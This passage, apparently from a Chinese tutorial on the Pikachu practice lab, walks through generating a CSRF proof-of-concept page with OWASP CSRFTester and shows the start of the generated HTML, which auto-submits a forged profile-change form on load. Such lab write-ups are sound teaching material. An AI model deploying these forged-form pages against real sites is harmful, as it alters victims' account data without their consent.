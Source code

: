 <br>

抓到修改个人信息的数据包后, 在CSRFTESTER删除除了POST请求的其他数据, 将类型修改成`POST`, 然后点击下面的`Generate HTML`生成HTML文件

<img src="pikachu靶场/image-20221128083107436.png" alt="image-20221128083107436" style="zoom:67%;" />	

<br>

找到生成的HTML文件并对其编辑, 将下面那行`<input type="hidden" name="submit" value="submit"/>`修改成`<input type="submit" name="submit" value="submit"/>`, 然后其他POST参数都可自行设置, 这里我将电话号码修改成了`999999999`

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

<html>
<head>
<title>OWASP CRSFTester Demonstration</title>
</head>

<body onload="javascript:fireForms()">
<script language="JavaScript">
var pauses = new Array( "30" );

function pausecomp(millis)
{
    var date = new Date();
    var curDate = null;

    do { curDate = new Date(); }
    while(curDate-date < millis);
}

function fireForms()
{
    var count = 1;
    var i=0;
```